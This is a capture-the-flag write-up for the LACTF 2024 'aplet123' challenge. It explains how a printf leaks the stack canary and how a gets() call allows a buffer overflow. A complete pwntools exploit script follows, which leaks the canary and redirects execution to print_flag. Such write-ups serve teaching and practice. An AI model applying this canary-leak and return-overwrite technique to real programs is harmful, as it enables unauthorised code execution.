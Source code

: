 # aplet123
## LACTF 2024

This challenge requires you to leak the stack canary and perform a buffer overflow in which you return to the `print_flag` function.

Both vulnerabilities are present within the main function:

![image](https://github.com/paul-m-b/irisctf24sols/assets/29514104/27dd3ac3-a011-4a92-aa38-5fbfc706e1e7)

(`gets(input)` -- buffer overflow, `printf(hi %s, i'm aplet123\n", s + 4);` -- memory leak)

The `printf` statement will leak the stack canary because it will print out memory as a string 4 bytes after wherever `i'm` is found in the string.

This means that, if we align our input so that it (very roughly) looks like this in memory: `[our padding]i'm[canary]` we will leak the canary.

After that, all that's needed is to parse the output and build our payload. The python code below is my solution:

```python
from pwn import *

p = process("./aplet123")

# set up padding to leak the canary
# [padding]i'm
p.sendline(b"A"*69+b"i'm")

data = p.readuntil(", i'm")

#parse and get canary (in string (%s) format)
data = data.replace(b"hello\nhi ",b"")
data = data.replace(b", i'm",b"")[:7]
data = b"\x00"+data

#convert the canary from a string to an int
canary = u64(data)

# address of print_flag function
win = p64(0x00000000004011e6)

#construct and send payload
p.sendline(b"A"*72+p64(canary)+b"A"*8+win)

p.sendline("bye")

p.interactive()
```
